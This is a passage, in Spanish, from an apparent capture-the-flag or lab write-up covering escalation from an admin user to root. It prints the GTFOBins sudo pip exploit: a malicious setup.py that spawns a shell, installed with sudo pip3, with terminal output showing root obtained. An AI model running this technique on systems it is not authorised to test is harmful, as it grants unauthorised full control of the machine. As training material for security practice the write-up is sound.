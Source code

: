## 8. Escalada de Privilegios (admin → root)

### 8.1 Búsqueda en GTFOBins
Al identificar que podemos ejecutar `pip3 install` con privilegios de root, consultamos [GTFOBins](https://gtfobins.github.io/gtfobins/pip/) para encontrar técnicas de escalada de privilegios.

**GTFOBins - Sudo:**
> If the binary is allowed to run as superuser by `sudo`, it does not drop the elevated privileges and may be used to access the file system, escalate or maintain privileged access.

El exploit recomendado es:
```bash
TF=$(mktemp -d)
echo "import os; os.execl('/bin/sh', 'sh', '-c', 'sh <$(tty) >$(tty) 2>$(tty)')" > $TF/setup.py
sudo pip install $TF
```

### 8.2 Ejecución del Exploit
Implementamos el exploit paso a paso:

```bash
# Crear directorio temporal
TF=$(mktemp -d)

# Crear setup.py malicioso
echo "import os; os.execl('/bin/sh', 'sh', '-c', 'sh <$(tty) >$(tty) 2>$(tty)')" > $TF/setup.py

# Ejecutar con sudo especificando el usuario root explícitamente
sudo -u root /usr/bin/pip3 install $TF
```

**¿Por qué usar `sudo -u root`?**
Aunque el comando `sudo pip3 install` funcionaría, usar `sudo -u root /usr/bin/pip3 install` es más explícito y garantiza que el comando se ejecute específicamente como el usuario root, evitando cualquier ambigüedad en la ejecución.

### 8.3 Resultado del Exploit
```bash
admin@30650cae576e:/tmp# TF=$(mktemp -d)
admin@30650cae576e:/tmp# echo "import os; os.execl('/bin/sh', 'sh', '-c', 'sh <$(tty) >$(tty) 2>$(tty)')" > $TF/setup.py
admin@30650cae576e:/tmp# sudo -u root /usr/bin/pip3 install $TF
Processing ./tmp.cEgkwJOd1g
# whoami
root
# 
```

✅ **ROOT OBTENIDO**

### 8.4 Verificación de Privilegios
```bash
# id
uid=0(root) gid=0(root) groups=0(root)
```

Hemos obtenido acceso completo como root de manera directa y eficiente utilizando el exploit de GTFOBins.

---
